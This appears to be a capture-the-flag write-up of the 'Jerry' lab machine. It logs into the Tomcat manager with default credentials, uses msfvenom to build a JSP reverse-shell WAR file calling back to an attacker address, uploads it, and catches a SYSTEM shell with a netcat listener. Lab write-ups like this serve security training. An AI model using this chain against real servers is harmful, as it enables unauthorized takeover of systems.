

http://10.10.10.95:8080/manager/html
```
You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

Credentials to log into the Tomcat Web Application Manager:
- tomcat
- s3cret

|                      |               |                    |                        |            |                 |          |             |
| -------------------- | ------------- | ------------------ | ---------------------- | ---------- | --------------- | -------- | ----------- |
| Server Information   |               |                    |                        |            |                 |          |             |
| Tomcat Version       | JVM Version   | JVM Vendor         | OS Name                | OS Version | OS Architecture | Hostname | IP Address  |
| Apache Tomcat/7.0.88 | 1.8.0_171-b11 | Oracle Corporation | Windows Server 2012 R2 | 6.3        | amd64           | JERRY    | 10.10.10.95 |

`tomcat` has the ability to upload `WAR` files and stop/start/reload applications.

## Creating a payload
```
┌──(kali㉿kali)-[~/Payloads]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=1337 -f war -o jerry.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
Saved as: jerry.war

```
## Uploaded payload



## Caught a shell
```
### Uploaded jerry.war to the portal
### Started a listener and clicked on the jerry.war file
http://10.10.10.95:8080/jerry/

┌──(kali㉿kali)-[~/Payloads]
└─$ nc -lvnp 1337               
listening on [any] 1337 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```